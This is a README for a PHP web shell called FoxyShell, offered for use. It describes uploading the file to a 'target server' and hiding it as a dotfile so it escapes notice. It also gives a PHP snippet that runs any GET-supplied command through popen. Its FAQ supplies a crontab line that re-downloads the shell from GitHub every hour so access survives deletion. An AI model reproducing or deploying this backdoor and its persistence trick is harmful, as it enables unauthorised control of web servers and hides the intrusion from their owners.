

# FoxyShell – PHP Web Shell

**FoxyShell** is a flexible, feature-packed **PHP web shell** that can be accessed through a simple interface, offers a pleasant UI, and supports several file operations and a built-in terminal. Even if some PHP functions like `exec` or `shell_exec` are disabled, FoxyShell can attempt to leverage other workarounds (like `popen`, etc.) to run commands – making it resilient in restricted environments.


---

## Table of Contents

1. [Features](#features)  
2. [Installation](#installation)  
3. [Usage](#usage)  
4. [Security Recommendations](#security-recommendations)  
5. [FAQ](#faq)  
6. [Credits](#credits)

---

## Features

| Feature             | Description                                                                               |
|---------------------|-------------------------------------------------------------------------------------------|
| **Terminal**        | Run commands on the server (includes fallback if certain PHP functions are disabled).     |
| **File Manager**    | View and manage files with a dynamic sidebar.                                             |
| **Rename**          | Inline rename of files.                                                                    |
| **New File/Folder** | Quickly create files or folders on the server.                                            |
| **Upload**          | Upload files directly via the interface.                                                  |
| **Inline Editor**   | Edit file contents directly in the browser, then save changes to the server.              |
| **Breadcrumb**      | Clickable path segments to move between directories.                                      |
| **Stealth**         | Can be hidden (e.g., rename to .sec.php), e.g. `foxyshell.php` → `.sec.php`.            |
| **Safety**         | If someone opens `https://example.com/foxyshell.php` then the display that is displayed is `403 Forbidden`, The text color will change to orange when selected. |

**Main Selling Points**

- **Works** even if some standard functions (```exec```, ```shell_exec```) are disabled, thanks to alternative methods.  
- **Attractive UI**: Tailwind CSS-based dark mode, icons, truncated filenames, etc.  
- **One-file solution**: just upload ```foxyshell.php``` to your target server, or hide it (e.g. ```.sec.php```).  
- **REST-ish endpoints**: can be extended for automation.  
- **Potential** to add an “API KEY” check in ```foxyshell.php``` to secure access.

---

## Installation

1. **Upload** the single file ```foxyshell.php``` to your server.  
2. (Optional) **Hide** it by renaming to a dotfile such as ```.sec.php``` or something less conspicuous.  
3. Ensure **permissions** are correct so the script can read/write files on the server.

---

## Usage

1. **Open** the script in your browser, e.g. ```https://example.com/foxyshell.php```.  
2. If you’ve **secured** it with an API key or HTTP Auth, provide those credentials.  
3. Once loaded, you’ll see:
   - **Sidebar** with Refresh, Upload, New File/Folder, and the file list.  
   - **Breadcrumb** to navigate directories.  
   - **Editor** to load and modify a file.  
   - **Terminal** to run commands (like ```ls -1```, ```cd /admin```, etc.).  
4. **Terminal** usage example:

   ```bash
   $ ls
   admin/
   index.php
   ...
   ```

5. **File creation** or **rename** operations are inline: you’ll see an input plus check and X icons to confirm or cancel.

**Example** minimal code snippet (in ```foxyshell.php```), (replace ``` with actual backticks in real usage):
```php
<?php
// Minimal example snippet
// Insert fallback logic for popen / shell_exec, etc.

if (!empty($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    // Use fallback 'popen' if 'exec' is disabled
    $descriptors = @popen($cmd . ' 2>&1', 'r');
    if ($descriptors) {
        while(!feof($descriptors)) {
            echo fgets($descriptors);
        }
        pclose($descriptors);
    } else {
        echo "Failed to run command\n";
    }
    exit;
}

// ... add your UI logic, forms, etc. ...
```

---

## Security Recommendations

- **Restrict Access**: Put this behind **HTTP Basic Auth** or an IP whitelist.  
- **Use HTTPS**: If possible, always run over HTTPS to avoid exposing commands in plaintext.  
- **Rename** to something less obvious (e.g., ```.sec.php``` or ```upload-handler.php```).  
- **Log** suspicious IP addresses or set honeypot triggers if you want advanced security.

---

## FAQ

**Q**: What if ```exec``` and ```shell_exec``` are disabled in ```php.ini```?  
**A**: FoxyShell tries alternate methods like ```popen```. If everything is disabled, certain commands might fail – but the file manager, upload, rename, etc., would still work.

**Q**: How do I create folders that start with a dot?  
**A**: In the “New Folder” prompt, type ```.secret``` – the shell calls ```mkdir .secret```.

**Q**: Does the shell require a database?  
**A**: No. It’s a single ```.php``` file – no database or external dependencies needed.

**Q**: How can I always have access even if the shell file has been deleted?  
**A**: You can use crontab to automatically create a shell file in `/public_html/` every hour.

#
Example: (change ```name.php``` and ```username``` according to the server and file name you want)
```
(crontab -l 2>/dev/null; echo "0 * * * * /usr/bin/curl -s \"https://raw.githubusercontent.com/rubahilang/FoxyShell-PHP-Web-Shell/refs/heads/main/foxyshell.php\" -o /home/username/public_html/name.php") | crontab -
```
---

## Credits

For further questions, please contact [rubahilang@gmail.com](mailto:rubahilang@gmail.com).
#
Made with ❤️ by **RubahIlang**  
